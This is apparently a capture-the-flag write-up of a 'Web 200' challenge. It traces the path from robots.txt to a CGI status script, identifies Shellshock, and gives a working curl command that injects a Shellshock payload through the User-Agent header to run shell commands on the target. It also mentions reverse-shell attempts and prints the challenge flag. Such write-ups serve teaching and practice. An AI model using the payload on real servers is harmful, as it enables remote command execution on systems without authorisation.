







# Web 200
## Description
You’ll be shocked when you finally get it.
http://44.197.231.105:3022

Source Code of the site
```
<html>
    <head><title>MCA WEB 200</title></head>
    <body>
        <h1>Hey, an index page...</h1>
	 <!--How do we feel about robots? Think they'll take over the world some day?-->
    </body>
</html>
```
Contents of `http://44.197.231.105:3022/robots.txt`
```
User-agent: *
Disallow: /cgi-bin/status.cgi
```
Contents of `http://44.197.231.105:3022/cgi-bin/status.cgi`
```
Robot C2 link up since:  03:39:31 up  5:58,  1 user,  load average: 5.78, 8.55, 9.35
```

Ok now I'm stuck. The description says `You’ll be shocked when you finally get it`
I think shocked is a key word. I search up `shellshocked exploit` and it exists!
On metasploit, it even mentions a CGI script, which matches the link we were given

#1


However we get an error


It cannot setup a reverse shell
...
After tens of minutes I wasn't able to make MSF work. I tried switching payloads, googling the error. But nothing.. So I switched gears to researh the shellshocked exploit.

[I watched this video my John Hammond](https://www.youtube.com/watch?v=TS_yfDqr_3s&ab_channel=JohnHammond)

And got this command that actually worked


`id` was the command being executed, so I wanted to see what else I could do
```
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'pwd'" "http://44.197.231.105:3022/cgi-bin/status.cgi"
```

and


I thought I could try to setup a bash reverse shell from here. But nothing worked...
So I though I'd go hunting myself.


Still nothing interesting

I looked though many more dirs, but one of my teammates for this CTF suggested I look into the `/var/www` diretory. 

Voila


Flag: `MCA{721af99eaabd12a59602e8ade39caab934bea333}`